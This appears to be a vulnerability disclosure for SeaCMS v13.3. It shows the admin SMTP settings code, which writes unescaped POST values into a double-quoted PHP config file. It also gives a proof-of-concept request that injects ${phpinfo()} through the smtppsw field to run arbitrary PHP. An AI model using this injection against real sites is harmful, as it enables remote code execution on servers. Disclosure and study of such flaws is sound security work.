

### Introduction

SeaCMS v13.3 contains a remote code execution (RCE) vulnerability. This vulnerability occurs because, although `admin_smtp.php` imposes certain restrictions on file editing, an attacker can bypass these restrictions and concatenate code in a way that allows the attacker to execute arbitrary commands. This allows an authenticated attacker to gain system privileges.

### Debugging Analysis and Vulnerability Exploitation

The latest version of SeaCMS, v13.3, contains a command execution vulnerability.


The vulnerable file `0omeqd/admin_smtp.php` uses PHP code concatenation, which is then written into the file data/admin/smtp.php. 

```php
<?php 	
header('Content-Type:text/html;charset=utf-8');
require_once(dirname(__FILE__)."/config.php");
CheckPurview();
if($action=="set")
{
	$weburl= $_POST['smtpserver'];
	$token = $_POST['smtpserverport'];
	$token = $_POST['smtpusermail'];
	$token = $_POST['smtpuser'];
	$token = $_POST['smtppass'];
	$open=fopen("../data/admin/smtp.php","w" );
	$str='<?php  ';	
	$str.='$smtpserver = "';
	$str.="$smtpserver";
	$str.='"; ';
	$str.='$smtpserverport = "';
	$str.="$smtpserverport";
	$str.='"; ';
	$str.='$smtpusermail = "';
	$str.="$smtpusermail";
	$str.='"; ';
	$str.='$smtpname = "';
	$str.="$smtpname";
	$str.='"; ';
	$str.='$smtpuser = "';
	$str.="$smtpuser";
	$str.='"; ';
	$str.='$smtppass = "';
	$str.="$smtppass";
	$str.='"; ';
	$str.='$smtpreg = "';
	$str.="$smtpreg";
	$str.='"; ';
	$str.='$smtppsw = "';
	$str.="$smtppsw";
	$str.='"; ';	
	$str.=" ?>";
	fwrite($open,$str);
	fclose($open);
	ShowMsg("成功保存设置!","admin_smtp.php");
	exit;
}
```

The web page where this occurs is found in the backend management system under email server settings. We intercept the request after clicking "Confirm."  


Through debugging and tracing, we find that in `include/filter.inc.php`, the `_FilterAll` method applies the `addslashes` function to the incoming parameters, preventing direct bypass via string concatenation.  


However, since the variable assignment in the written file uses **double quotes**, and double quotes can parse PHP variables, we can exploit this by injecting `${...}` to execute arbitrary PHP code.

We inject PHP code into the `smtppsw` parameter with the following payload:  
```
smtppsw=${phpinfo()}
```

### Exploit PoC

Captured request:
```r
POST /0omeqd/admin_smtp.php?action=set HTTP/1.1

smtpserver=smtp.qq.com&smtpserverport=465&smtpusermail=12345%40qq.com&smtpname=%E6%B5%B7%E6%B4%8B%E5%BD%B1%E8%A7%86%E7%BD%91&smtpuser=12345%40qq.com&smtppass=123456789&smtpreg=off&smtppsw=${phpinfo()}
```


Finally, visiting the PHP file executes the injected PHP code:  

```r
data/admin/smtp.php
```
